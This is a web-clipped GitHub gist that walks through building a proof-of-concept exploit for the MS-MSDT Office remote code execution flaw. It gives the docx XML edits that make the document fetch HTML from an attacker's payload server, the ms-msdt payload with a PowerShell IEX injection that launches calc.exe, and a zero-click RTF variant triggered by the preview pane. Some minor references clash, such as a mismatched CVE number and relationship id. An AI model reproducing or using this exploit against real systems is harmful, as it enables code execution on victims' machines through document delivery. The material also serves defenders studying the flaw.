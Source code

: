 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [gist.github.com](https://gist.github.com/tothi/66290a42896a97920055e50128c9f040)

> The MS-MSDT 0-day Office RCE Proof-of-Concept Payload Building Process - ms-msdt.MD

MS Office docx files may contain external OLE Object references as HTML files. There is an HTML sceme "ms-msdt:" which invokes the msdt diagnostic tool, what is capable of executing arbitrary code (specified in parameters).

The result is a terrifying attack vector for getting RCE through opening malicious docx files (without using macros).

Here are the steps to build a Proof-of-Concept docx:

1.  Open Word (used up-to-date 2019 Pro, 16.0.10386.20017), create a dummy document, insert an (OLE) object (as a Bitmap Image), save it in docx.
    
2.  Edit `word/_rels/document.xml.rels` in the docx structure (it is a plain zip). Modify the XML tag `<Relationship>` with attribute
    

```
Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/oleObject"
```

and `Target="embeddings/oleObject1.bin"` by changing the `Target` value and adding attribute `TargetMode`:

```
Target = "http://<payload_server>/payload.html!"
TargetMode = "External"
```

Note the Id value (probably it is "rId5").

3.  Edit `word/document.xml`. Search for the "<o:OLEObject ..>" tag (with `r:id="rd5"`) and change the attribute from `Type="Embed"` to `Type="Link"` and add the attribute `UpdateMode="OnCall"`.

NOTE: The created malicious docx is almost the same as for [CVE-2021-44444](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-40444).

4.  Serve the PoC (calc.exe launcher) html payload with the ms-msdt scheme at `http://<payload_server>/payload.html`:

```
<!doctype html>
<html lang="en">
<body>
<script>
//AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA should be repeated >60 times
  window.location.href = "ms-msdt:/id PCWDiagnostic /skip force /param \"IT_RebrowseForFile=cal?c IT_SelectProgram=NotListed IT_BrowseForFile=h$(IEX('calc.exe'))i/../../../../../../../../../../../../../../Windows/System32/mpsigstub.exe \"";
</script>

</body>
</html>
```

Note that the comment line with AAA should be repeated >60 times (for filling up enough space to trigger the payload for some reason).

[](#bonus-0-click-rtf-version)BONUS (0-click RTF version)
---------------------------------------------------------

If you also add these elements under the `<o:OLEObject>` element in `word/document.xml` at step 3:

```
<o:LinkType>EnhancedMetaFile</o:LinkType>
<o:LockedField>false</o:LockedField>
<o:FieldCodes>\f 0</o:FieldCodes>
```

then it'll work as RTF also (open the resulting docx and save it as RTF).

With RTF, there is no need to open the file in Word, it is enough to browse to the file and have a look at it in a preview pane. The preview pane triggers the external HTML payload and RCE is there without any clicks. :)